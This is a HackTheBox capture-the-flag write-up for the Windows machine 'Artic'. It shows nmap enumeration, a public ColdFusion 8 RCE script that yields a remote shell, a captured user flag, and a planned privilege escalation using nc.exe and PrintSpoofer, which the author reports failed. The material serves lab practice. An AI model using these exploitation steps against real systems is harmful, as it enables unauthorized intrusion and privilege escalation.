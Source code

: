 ```yaml
---
title: "Artic"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Artic

![](assets/Pasted%20image%2020250608193154.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 19:33 CEST
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   39.95 ms 10.10.14.1
2   40.27 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.34 seconds
```

Browsing `port` `8500`

![](assets/Pasted%20image%2020250608195223.png)

Exploring some ColdFusion files, we see the version: `8`

![](assets/Pasted%20image%2020250608200629.png)

## Initial Access

Using `searchsploit`, we can get an RCE for version `8`.

![](assets/Pasted%20image%2020250609182914.png)

Executing it, we get a shell.

```shell
$ python 50057.py

Generating a payload...
Payload size: 1497 bytes
Saved as: b7172b096b3d440aa353a65a5d0acac3.jsp

...


...

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Get the flag:

```shell
C:\Users\tolis\Desktop>type user.txt
type user.txt
f7e361c9b62bb18b40ca4fc348bf549f
```

## Privilege Escalation

```shell
whoami /priv                                                                                           
                                                                                                       
PRIVILEGES INFORMATION                                                                                 
----------------------                                                                                 
                                                                                                       
Privilege Name                Description                               State                          
============================= ========================================= ========                       
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                        
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                        
SeCreateGlobalPrivilege       Create global objects                     Enabled                        
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The user has `SeImpersonatePrivilege`, so transfer `nc.exe` and `PrintSpoofer` to the machine.

!!! bug

    I can't get it to work.